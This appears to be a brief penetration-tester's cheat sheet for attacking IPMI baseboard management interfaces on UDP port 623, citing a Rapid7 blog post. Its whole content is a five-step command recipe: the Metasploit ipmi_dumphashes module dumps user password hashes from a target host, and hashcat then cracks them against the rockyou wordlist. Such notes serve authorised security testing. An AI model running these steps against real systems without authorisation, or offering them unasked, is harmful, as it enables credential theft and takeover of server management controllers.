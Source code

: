 ### Resource: https://www.rapid7.com/blog/post/2013/07/02/a-penetration-testers-guide-to-ipmi/

### UDP port: 623 (asf-rmcp)

### Dump password hashes for users with Metasploit

#### 1) msfconsole

#### 2) use auxiliary/scanner/ipmi/ipmi_dumphashes

#### 3) set RHOSTS HOST

#### 4) run

#### 5) hashcat -m 7300 -a 0 hash /usr/share/wordlists/rockyou.txt
